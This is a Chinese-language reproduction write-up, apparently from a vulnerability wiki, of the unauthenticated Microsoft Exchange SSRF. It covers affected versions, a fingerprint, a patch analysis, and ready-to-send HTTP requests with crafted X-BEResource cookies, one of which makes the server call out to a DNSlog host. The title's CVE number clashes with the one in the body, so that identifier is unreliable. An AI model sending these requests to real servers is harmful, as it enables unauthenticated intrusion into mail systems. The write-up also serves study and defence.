



# Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

<a-checkbox checked>Exchange 2013 Versions < 15.00.1497.012,</a-checkbox></br>

<a-checkbox checked>Exchange 2016 CU18 < 15.01.2106.013,</a-checkbox></br>

<a-checkbox checked>Exchange 2016 CU19 < 15.01.2176.009,</a-checkbox></br>

<a-checkbox checked>Exchange 2019 CU7 < 15.02.0721.013,</a-checkbox></br>

<a-checkbox checked>Exchange 2019 CU8 < 15.02.0792.010</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

与 SSRF 有关的文件

```plain
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 `BackEndServer` 使用的类关于 `BEResourceRequestHandler` 的改变




修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁


查看调用`BERsourceRequestHandler` 的方法 `SelectHandlerForUnauthenticatedRequest` 查找相关路径 `ProxyMoudle`


可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 `X-BEResponse`, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为`/etc/y.js` 这样类似不存在的文件

参数 `X-BEResource` 解析在 `BackEndServer.FromString`

跟踪 `BackEndServer`对象， 其中该对象使用 `ProxyRequestHandler` 向主机发送请求



这里进行SSRF的漏洞复现，首先访问 `/ecp/test11.js` 文件

并设置Cookie `X-BEResource=test_wiki/api/endpoint#~1; X-AnonResource=true`

```plain
GET /ecp/test11.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=test_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

```plain
响应包为:
NegotiateSecurityContext failed with for host 'test_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```plain
GET /owa/auth/test.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```


<a-alert type="success" message="Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;" description="" showIcon>
</a-alert>
<br/>

<a-alert type="success" message="将其中的 Dnslog换成自己的" description="" showIcon>
</a-alert>
<br/>





确定收到了由服务端发送的请求，存在SSRF漏洞